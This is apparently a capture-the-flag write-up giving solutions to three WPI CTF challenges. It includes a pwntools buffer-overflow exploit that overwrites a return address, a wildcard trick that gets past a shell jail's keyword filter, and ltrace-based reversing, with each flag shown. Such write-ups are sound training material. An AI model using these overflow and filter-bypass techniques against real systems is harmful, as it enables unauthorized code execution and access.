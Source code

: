EZPZ, Pwn, 100pts
==================

Problem
--------
nc ezpz.wpictf.xyz 31337

Solution
--------
We run the following script -

```python
from pwn import *


r = remote('ezpz.wpictf.xyz', 31337)

msg = r.recvline()
print(msg)
address = int(msg.split(' ')[1], 16)  # 16 for hex
r.recvline()

buf  = 'A'*0x88
buf += p64(address)
r.sendline(buf)


r.interactive()
```

This gives the flag - `WPI{3uffer_0verflows_r_ezpz_l3mon_5queazy}`.

Shell-JAIL-1, Pwn, 150pts
==========================

Problem
--------
Download the login private key, then run:

`ssh -p 31337 -i login shjail@shelljail1.wpictf.xyz`

redundant servers on 31338 and 31339

Solution
---------
The solution was to not use "\*", "sh", "/", "home", "pc_owner", "flag", "txt" in the command to display flag.txt.

So we run - `./access "cat ????.???"`

The flag is - `wpi{MaNY_WayS_T0_r3Ad}`.

Penguin, Reversing, 50pts
=========================

Problem
-------
Find flag.

Solution
--------

We use ltrace to see program flow.

Running `ltrace WPI{1}`

Gives output -  
![](output.png)

So we keep doing that, and finally get the flag - `WPI{strings_only_gives_you_wings,_you_still_have_to_learn_how_to_fly._try_hexedit}`.
